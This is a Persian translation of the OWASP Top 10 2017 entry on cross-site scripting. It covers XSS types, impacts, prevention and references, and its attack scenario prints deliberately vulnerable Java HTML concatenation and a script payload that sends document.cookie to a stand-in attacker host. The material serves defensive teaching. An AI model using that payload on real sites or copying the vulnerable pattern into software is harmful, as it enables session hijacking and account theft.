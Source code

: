 # <div dir="rtl" align="right">A7:2017 Cross-Site Scripting (XSS) </div>

| Threat agents/Attack vectors | Security Weakness           | Impacts               |
| -- | -- | -- |
| Access Lvl : قابلیت بهره‌برداری: ۳ | شیوع: ۳ : قابل کشف بودن: ۳ | تکنیکی: ۲ : Business ? |
| <div dir="rtl" align="right">ابزارهای خودکار می‌توانند تمام 3 شکل ممکن XSS را شناسایی و اکسپلویت کنند و چارچوب های اکسپلویت در دسترس رایگانی وجود دارد. </div> | <div dir="rtl" align="right">XSS دومین مسئله مهم درOWASP Top 10 است و در حدود دو سوم از تمام برنامه های کاربردی یافت می‌شود.ابزارهای خودکار می‌توانند برخی از مشکلاتXSS  را به صورت خودکار، به ویژه در فن آوری های بالغ مانند PHP، J2EE / JSP و ASP.NET پیدا کنند.</div> | <div dir="rtl" align="right">تأثیر XSS برای انواع بازتابی و DOM XSS متوسط است و برای XSS ذخیره شده با اجرای کد از راه دور در مرورگر قربانی شدید است مانند سرقت اعتبارها، جلسات و یا ارائه بد افزارها به قربانیان.</div> |

## <div dir="rtl" align="right">آیا برنامه کاربردی آسیب پذیر است ؟</div>

<p dir="rtl" align="right">سه شکل از XSS وجود دارد که معمولا مرورگرهای کاربران را هدف قرار می‌دهند:</p>

<ul dir="rtl" align="right">
  <li>
    <strong>XSS  منعکس شده: </strong>
     برنامه یا API شامل ورودی کاربر غیرقابل اعتبار و غیرقانونی به عنوان بخشی از خروجی HTML است. یک حمله موفقیت آمیز می‌تواند به حمله کننده اجازه دهد HTML و JavaScript دلخواهی را در مرورگر قربانی اجرا کند. به طور معمول، کاربر نیاز به ارتباط با برخی از لینک های مخرب دارد که به یک صفحه کنترل شده توسط مهاجم اشاره می‌کند، مانند وب سایت های آگهی مخرب، تبلیغات و یا مشابه این ها.
  </li>
  <li>
    <strong>XSS ذخیره شده: </strong>
    برنامه کاربردی یا API ورودی کاربر تصفیه نشده را که بعدا توسط یک کاربر یا مدیر دیگر مشاهده می‌شود، ذخیره می‌کند. XSS ذخیره شده اغلب کاربر را با خطر بالایی از ریسک روبه رو می‌کند.
  </li>
  <li>
    <strong>DOM XSS: </strong>
    چارچوب های جاوا اسکریپت، برنامه های تک صفحه وAPI هایی که به طور پویا شامل داده های قابل کنترل مهاجم به یک صفحه می‌شوند، به DOM XSS آسیب پذیر هستند. در حالت ایده آل، برنامه اطلاعات قابل کنترل مهاجم را به API های جاوا اسکریپت نا امن ارسال نمی‌کند.
  </li>
</ul>

<p dir="rtl" align="right">حملات متداول XSS عبارتند از: سرقت نشست، گرفتن حساب، دور زدن MFA، جایگزینی یا حذف گره DOM (از قبیل پنل های ورود به سیستم تروجان)، حملات علیه مرورگر کاربر مانند دریافت نرم افزارهای مخرب، کلید ورود به سیستم و سایر حملات سمت مشتری.</p>

## <div dir="rtl" align="right">نحوه پیشگیری از حمله : </div>

<p dir="rtl" align="right">پیشگیری ازپیشگیری ازXSS  نیاز به جداسازی داده های غیر قابل اعتماد از محتوای فعال مرورگر دارد. این کار با انجام موارد زیر قابل دسترسی است:</p>

<ul dir="rtl" align="right">
  <li>با استفاده از چارچوب هایی که به صورت خودکار از وقوع XSS فرار می‌کنند به وسیله طراحی، همانند آخرین Ruby on Rails، React JS. محدودیت های حفاظت XSS  هر چارچوب را بیاموزید و به طور مناسب موارد استفاده را که پوشش داده نمی‌شوند، مدیریت کنید.
  </li>
  <li>فرار داده های درخواست HTTP نامعتبر براساس متن در خروجی HTML (بدنه، ویژگی، جاوا اسکریپت، CSS، یا URL ) آسیب پذیری های XSS ذخیره شده و منعکس شده را حل خواهد کرد.  
  </li>
  <li>
    با استفاده از رمزگذاری حساس به متن هنگام تغییر سند مرورگر در سمت مشتری بر علیه DOM XSS عمل می‌کند. هنگامی‌که از انجام این کار اجتناب نکنیم، تکنیک های فرار از حساسیت متن مشابه می‌توانند به API های مرورگر اعمال شوند، همانطور که در<a href="https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html">OWASP Cheat Sheet 'XSS Prevention'</a> توضیح داده شده است. </li>
  <li>
    فعال کردن یک سیاست امنیتی محتوا <a href="https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP">(CSP)</a>  یک کنترل دفاع در عمق در برابر XSS  است. این مؤثر است اگر هیچ آسیب پذیری دیگری وجود نداشته باشد که اجازه می‌دهد کدهای مخرب را از طریق فایل محلی شامل شود (مثلا مسیرهای رونویسی شده یا کتابخانه های آسیب پذیر از شبکه های تحویل مجاز محتوا).
  </li>
</ul>

## <div dir="rtl" align="right">نمونه سناریو حمله</div>

<p dir="rtl" align="right"><strong>سناریو 1: </strong>برنامه بدون تایید یا escape، از داده های غیر قابل اعتماد در ساخت قطعه HTML زیر استفاده می‌کند:</p>

`(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";`
<p dir="rtl" align="right">مهاجم پارامتر CC را در مرورگر خود به صورت زیر تغییر می‌دهد :</p>

`'><script>document.location='https://attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'`

<p dir="rtl" align="right">این حمله باعث می‌شود شناسه نشست قربانی به وب سایت مهاجم ارسال شده و به مهاجم اجازه سرقت نشست فعلی کاربر را می‌دهد.</p>

<p dir="rtl" align="right"><strong>نکته : </strong>مهاجمان می‌توانند ازXSS برای جلوگیری از هرگونه دفاع خودکار CSRF که برنامه کاربردی به کار می‌برد، استفاده کنند.</p>

## <div dir="rtl" align="right">منابع</div>

### <div dir="rtl" align="right">OWASP</div>

* [OWASP Proactive Controls: Encode Data](https://owasp.org/www-project-proactive-controls/v3/en/c4-encode-escape-data)
* [OWASP Proactive Controls: Validate Data](https://owasp.org/www-project-proactive-controls/v3/en/c4-encode-escape-data)
* [OWASP Application Security Verification Standard: V5](https://owasp.org/www-project-application-security-verification-standard/)
* [OWASP Testing Guide: Testing for Reflected XSS](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting)
* [OWASP Testing Guide: Testing for Stored XSS](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/02-Testing_for_Stored_Cross_Site_Scripting)
* [OWASP Testing Guide: Testing for DOM XSS](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/11-Client-side_Testing/01-Testing_for_DOM-based_Cross_Site_Scripting)
* [OWASP Cheat Sheet: XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
* [OWASP Cheat Sheet: DOM based XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)
* [OWASP Cheat Sheet: XSS Filter Evasion](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)
* [OWASP Java Encoder Project](https://owasp.org/www-project-java-encoder/)

### <div dir="rtl" align="right">خارجی</div>

* [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Client-side template injection](https://portswigger.net/kb/issues/00200308_client-side-template-injection)
